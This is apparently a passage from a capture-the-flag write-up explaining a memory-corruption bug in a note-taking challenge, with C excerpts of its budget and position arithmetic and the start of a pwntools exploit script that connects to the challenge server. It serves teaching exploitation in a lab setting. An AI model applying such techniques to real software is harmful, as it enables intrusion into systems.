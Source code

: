 The next question is: **How many bytes can we overwrite once the pointer has been shifted?** 

That depends on the stack layout, as the least significant byte of the **buffer address** varies between executions. The number of bytes we’re allowed to write ”our budget" is determined by subtracting the current `written` and `loopback` value from the **previous budget**. This `written` value is computed using `strcspn`, which scans the buffer until it encounters a newline or, in our case, the first null byte at the end of the shifted buffer pointer. `lookback` represents how far the write pointer has been shifted **backwards** from the **current logical position**, in our case is zero.

```c
uint32_t written = strcspn(note->buffer + offset, "\n") + 1;
```

```c
uint32_t lookback = (note->pos - offset);
```

```c
note->budget -= written - lookback;
```

Is worth to mention the actual **position** of the note is updated in a similar way

```c
note->pos += written - lookback;
```

So once we got the **buffer pointer** shifted we can use the following function which is very handy which appends data at the end of the buffer, the only thing here to have care about is to put a **null byte** at the end of the **buffer pointer**.

```c
void append(Note* note) {
    printf("Append something to your note (%u bytes left):\n", note->budget);
    fgets(note->buffer + note->pos, note->budget, stdin);
    uint32_t written = strcspn(note->buffer + note->pos, "\n") + 1;
    note->budget -= written;
    note->pos += written;
}
```

```python
from pwn import *

exe = ELF("./chall")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context(arch='amd64', os='linux', log_level='debug', terminal=['tmux', 'splitw', '-h'])

def start(argv=[], *a, **kw):
    if args.GDB: # GDB
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return remote("ironview-of-constant-abundance.gpn23.ctf.kitctf.de", "443", ssl=True)
    
    
gdbscript = '''
disp/10i $rip
tb main
continue
'''.format(**locals())

def append(data):
    io.sendlineafter(b'6. Quit\n', b'3')
    io.sendlineafter(b'Append something to your note', data)

def edit(offset, length, data):
    io.sendlineafter(b'6. Quit\n', b'4')
    io.sendlineafter(b'Give me an offset where you want to start editing: ', offset)
    io.sendlineafter(b'How many bytes do you want to overwrite: ', length)
```